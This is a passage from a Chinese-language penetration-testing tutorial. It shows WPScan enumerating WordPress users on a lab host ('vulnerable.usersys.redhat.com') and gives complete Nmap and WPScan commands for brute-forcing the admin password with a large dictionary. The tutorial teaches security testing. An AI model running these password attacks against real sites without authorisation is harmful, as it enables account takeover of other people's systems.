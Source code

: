 ```

Interesting Finding(s):
...
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] pgervase
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

这显示有两个用户：`admin` 和 `pgervase`。我将尝试使用密码字典来猜测 `admin` 的密码。密码字典是一个包含很多密码的文本文件。我使用的字典大小有 37G，有 3,543,076,137 行。


就像你可以选择不同的文本编辑器、Web 浏览器和其他应用程序 一样，也有很多工具可以启动密码攻击。下面是两个使用 Nmap 和 WPScan 的示例命令：



```
# nmap -sV --script http-wordpress-brute --script-args userdb=users.txt,passdb=/path/to/passworddb,threads=6 vulnerable.usersys.redhat.com

```


```
# wpscan --url vulnerable.usersys.redhat.com --passwords /path/to/passworddb --usernames admin --max-threads 50 | tee nmap.txt

```

这个 Nmap 脚本是我使用的许多脚本之一，使用 WPScan 扫描 URL 只是这个工具可以完成的许多任务之一。你可以用你喜欢的那一个。


WPScan 示例在文件末尾显示了密码：



```
┌──(root?kali)-[~]
└─# wpscan --url vulnerable.usersys.redhat.com --passwords passwords.txt --usernames admin
_______________________________________________________________
        __              _______   _____
        \ \     / /  __ \ / ____|
        \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
        \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |   ____) | (__| (_| | | | |
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                        Version 3.8.10
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://vulnerable.usersys.redhat.com/ [10.19.47.242]
[+] Started: Thu Feb 18 20:32:13 2021

Interesting Finding(s):

......
```